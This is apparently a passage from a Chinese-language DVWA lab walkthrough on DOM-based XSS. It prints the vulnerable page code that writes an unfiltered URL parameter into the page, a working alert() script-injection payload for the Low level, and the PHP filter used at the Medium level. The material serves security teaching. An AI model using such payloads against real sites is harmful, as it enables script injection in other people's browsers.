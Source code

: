 ```html
                    document.write("<option value='Spanish'>Spanish</option>");
                    document.write("<option value='German'>German</option>");
                </script>
            </select>
            <input type="submit" value="Select" />
        </form>
</div>
```

DOM XSS 是通过修改页面的 DOM 节点形成的 XSS。首先通过选择语言后然后往页面中创建了新的 DOM 节点：





html

```html
document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
document.write("<option value='' disabled='disabled'>----</option>");
```

这里的`lang`变量通过`document.location.href`来获取到，并且没有任何过滤就直接URL解码后输出在了`option`标签中，以下payload在`Firefox Developer Edition 56.0b9`版本的浏览器测试成功:

Javascript





javascript

```javascript
?default=English <script>alert('XSS')</script>
```

## Medium





php

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```
